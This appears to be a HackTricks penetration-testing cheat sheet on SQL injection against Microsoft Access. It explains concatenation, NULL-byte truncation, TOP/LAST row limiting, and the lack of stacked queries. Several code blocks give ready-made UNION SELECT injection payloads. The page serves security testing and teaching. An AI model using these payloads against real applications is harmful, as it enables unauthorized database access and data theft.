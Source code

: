 # MS Access SQL Injection

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## Online Playground

* [https://www.w3schools.com/sql/trysql.asp?filename=trysql\_func\_ms\_format\&ss=-1](https://www.w3schools.com/sql/trysql.asp?filename=trysql\_func\_ms\_format\&ss=-1)

## DB Limitations

### String Concatenation

String concatenation is possible with `& (%26)` and `+ (%2b)` characters.

```sql
1' UNION SELECT 'web' %2b 'app' FROM table%00
1' UNION SELECT 'web' %26 'app' FROM table%00
```

### Comments

There are no comments in MS access, but apparently it's possible to remove the last of a query with a NULL char:

```sql
1' union select 1,2 from table%00
```

If this is not working you could always fix the syntax of the query:

```sql
1' UNION SELECT 1,2 FROM table WHERE ''='
```

### Stacked Queries

They aren't supported.

### LIMIT

The **`LIMIT`** operator **isn't implemented**. However, it's possible to limit SELECT query results to the **first N table rows using the `TOP` operator**. `TOP` accepts as argument an integer, representing the number of rows to be returned.

```sql
1' UNION SELECT TOP 3 attr FROM table%00
```

Just like TOP you can use **`LAST`** which will get the **rows from the end**.
